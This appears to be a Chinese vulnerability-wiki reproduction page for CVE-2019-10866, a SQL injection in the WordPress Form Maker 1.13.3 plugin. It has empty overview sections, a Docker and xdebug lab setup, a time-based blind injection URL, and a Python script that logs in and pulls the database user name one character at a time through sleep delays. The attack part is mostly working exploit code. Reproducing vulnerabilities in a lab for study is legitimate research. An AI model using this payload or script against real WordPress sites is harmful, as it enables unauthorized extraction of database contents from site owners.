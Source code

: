 （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入
===============================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

    FROM medicean/vulapps:base_lamp_php7

    RUN pecl install xdebug

    COPY php.ini /etc/php/7.0/apache2/
    COPY php.ini /etc/php/7.0/cli/

docker-compose文件:

    version: '3'
    services:
      lamp-php7:
        build: .
        ports:
          - "80:80"
        volumes:
          - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
          - "/Users/mengchen/Security/Code Audit/tmp:/tmp"

php.ini中xdebug的配置

    [xdebug]
    zend_extension="/usr/lib/php/20151012/xdebug.so"
    xdebug.remote_enable=1
    xdebug.remote_host=10.254.254.254
    xdebug.remote_port=9000
    xdebug.remote_connect_back=0
    xdebug.profiler_enable=0
    xdebug.idekey=PHPSTORM
    xdebug.remote_log="/tmp/xdebug.log"

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

    sudo ifconfig lo0 alias 10.254.254.254

PHPStorm也要配置好相对路径:

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-10866)WordPressPlugin-FormMaker1.13.3sql注入/media/rId25.png)

插件下载地址:

    https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

    http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b

Python脚本，修改自exploit-db

    #coding:utf-8
    import requests
    import time

    vul_url = "http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc="
    S = requests.Session()
    S.headers.update({"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3", "Referer": "http://127.0.0.1/wp-login.php?loggedout=true", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"})
    length = 0
    TIME = 3
    username = "admin"
    password = "admin"

    def login(username, password):
        data = {
            "log": "admin", 
            "pwd": "admin", 
            "wp-submit": "\xe7\x99\xbb\xe5\xbd\x95", 
            "redirect_to": "http://127.0.0.1/wp-admin/", 
            "testcookie": "1"
            }
        r = S.post('http://127.0.0.1/wp-login.php', data=data, cookies = {"wordpress_test_cookie": "WP+Cookie+check"})


    def attack():
        flag = True
        data = ""
        length = 1
        while flag:
            flag = False
            tmp_ascii = 0
            for ascii in range(32, 127):
                tmp_ascii = ascii
                start_time = time.time()
                payload = "{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b".format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)
                #print(payload)
                r = S.get(payload)
                tmp = time.time() - start_time
                if tmp >= TIME:
                    flag = True
                    break
            if flag:
                data += chr(tmp_ascii)
                length += 1
            print(data)
    login(username, password)
    attack()

image
